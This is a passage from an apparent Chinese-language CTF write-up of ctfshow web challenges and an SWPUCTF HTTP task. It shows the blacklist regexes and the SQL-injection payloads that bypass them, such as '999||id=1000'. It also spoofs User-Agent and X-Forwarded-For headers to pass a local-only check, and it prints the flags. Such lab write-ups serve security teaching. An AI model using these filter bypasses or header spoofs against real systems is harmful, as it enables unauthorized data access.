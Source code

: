payload:`/?id=2*500`

还找了半天乘号的url编码，原来可以直接用。。。

`ctfshow{823e8ecb-33e3-4211-8d1f-1cd473263902}`

## web3

新增限制：

````php
if(preg_match("/or|\-|\\|\*|\<|\>|\!|x|hex|\+/i",$id)){
            die("id error");
    }
````

 正则表达式 `/or|\-|\\|\*|\<|\>|\!|x|hex|\+/i` 表示匹配包含以下任意一个字符的字符串：`or`、`-`、`\`（反斜杠）、`*`、`<`、`>`、`!`、`x`、`hex`、`+`。其中 `i` 表示不区分大小写。

 你等等，除号`/`没屏蔽，试试：

 payload:`/?id=500/0.5`

 不知道为啥2000/2不行，可能是因为先传入的2000>999了。

 `ctfshow{7326bf8d-aeca-405c-8ccf-088fbf64b61f}`

 ## web4

 ````php
 if(preg_match("/or|\-|\\\|\/|\\*|\<|\>|\!|x|hex|\(|\)|\+|select/i",$id)){
            die("id error");
    }
````

正则表达式 `/or|\-|\\\|\/|\\*|\<|\>|\!|x|hex|\(|\)|\+|select/i` 表示匹配包含以下任意一个字符的字符串：`or`、`-`、`\`（反斜杠）、`/`、`*`、`<`、`>`、`!`、`x`、`hex`、`(`、`)`、`+`、`select`。其中 `i` 表示不区分大小写。

全屏蔽了，但是没完全屏蔽：`|`，或运算没有被屏蔽，所以：

payload:`/?id=999||id=1000`

`执行的sql为：select * from article where id = 999||id=1000 order by id limit 1`

`ctfshow{1f31bdb8-81ae-4546-a1d2-c9af01aadb46}`

## [SWPUCTF 2021 新生赛]Do_you_know_http

`hackbar`，先修改`User-Agent`为`WLLM`，转到`a.php`，要求从本地访问。

添加`X-Forwarded-For`，内容`127.0.0.1`，得到flag。

